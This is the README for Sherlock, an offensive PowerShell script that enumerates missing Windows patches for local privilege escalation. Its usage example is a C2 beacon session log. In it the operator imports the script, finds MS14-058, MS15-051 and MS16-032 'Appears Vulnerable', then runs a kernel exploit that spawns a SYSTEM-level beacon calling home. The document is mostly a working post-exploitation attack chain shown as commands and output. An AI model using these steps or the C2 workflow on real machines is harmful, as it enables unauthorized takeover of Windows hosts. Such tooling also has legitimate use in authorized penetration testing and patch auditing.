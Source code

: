 # Sherlock

PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.

## Currently looks for:

* MS10-015 : User Mode to Ring (KiTrap0D)
* MS10-092 : Task Scheduler
* MS13-053 : NTUserMessageCall Win32k Kernel Pool Overflow
* MS13-081 : TrackPopupMenuEx Win32k NULL Page
* MS14-058 : TrackPopupMenu Win32k Null Pointer Dereference
* MS15-051 : ClientCopyImage Win32k
* MS15-078 : Font Driver Buffer Overflow
* MS16-016 : 'mrxdav.sys' WebDAV
* MS16-032 : Secondary Logon Handle
* CVE-2017-7199 : Nessus Agent 6.6.2 - 6.10.3 Priv Esc

## Tested on:

* Windows 7 SP1 32-bit
* Windows 7 SP1 64-bit
* Windows 8 64-bit
* Windows 10 64-bit

## Basic Usage:

```
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 20 bytes
[*] You are Win7-x64\Rasta

beacon> powershell-import C:\Users\Rasta\Desktop\Sherlock.ps1
[*] Tasked beacon to import: C:\Users\Rasta\Desktop\Sherlock.ps1
[+] host called home, sent: 2960 bytes

beacon> powershell Find-AllVulns
[*] Tasked beacon to run: Find-AllVulns
[+] host called home, sent: 21 bytes
[+] received output:


Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Not Vulnerable

Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenuEx Win32k NULL Page
MSBulletin : MS13-081
CVEID      : 2013-3881
Link       : https://www.exploit-db.com/exploits/31576/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenu Win32k Null Pointer Dereference
MSBulletin : MS14-058
CVEID      : 2014-4113
Link       : https://www.exploit-db.com/exploits/35101/
VulnStatus : Appears Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable

Title      : Font Driver Buffer Overflow
MSBulletin : MS15-078
CVEID      : 2015-2426, 2015-2433
Link       : https://www.exploit-db.com/exploits/38222/
VulnStatus : Not Vulnerable

Title      : 'mrxdav.sys' WebDAV
MSBulletin : MS16-016
CVEID      : 2016-0051
Link       : https://www.exploit-db.com/exploits/40085/
VulnStatus : Not supported on 64-bit systems

Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

beacon> elevate ms14-058 smb
[*] Tasked beacon to elevate and spawn windows/beacon_smb/bind_pipe (127.0.0.1:1337)
[+] host called home, sent: 105015 bytes
[+] received output:
[*] Getting Windows version...
[*] Solving symbols...
[*] Requesting Kernel loaded modules...
[*] pZwQuerySystemInformation required length 51216
[*] Parsing SYSTEM_INFO...
[*] 173 Kernel modules found
[*] Checking module \SystemRoot\system32\ntoskrnl.exe
[*] Good! nt found as ntoskrnl.exe at 0x0264f000
[*] ntoskrnl.exe loaded in userspace at: 40000000
[*] pPsLookupProcessByProcessId in kernel: 0xFFFFF800029A21FC
[*] pPsReferencePrimaryToken in kernel: 0xFFFFF800029A59D0
[*] Registering class...
[*] Creating window...
[*] Allocating null page...
[*] Getting PtiCurrent...
[*] Good! dwThreadInfoPtr 0xFFFFF900C1E7B8B0
[*] Creating a fake structure at NULL...
[*] Triggering vulnerability...
[!] Executing payload...

[+] host called home, sent: 204885 bytes
[+] established link to child beacon: 192.168.56.105

[+] established link to parent beacon: 192.168.56.105
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are NT AUTHORITY\SYSTEM (admin)
```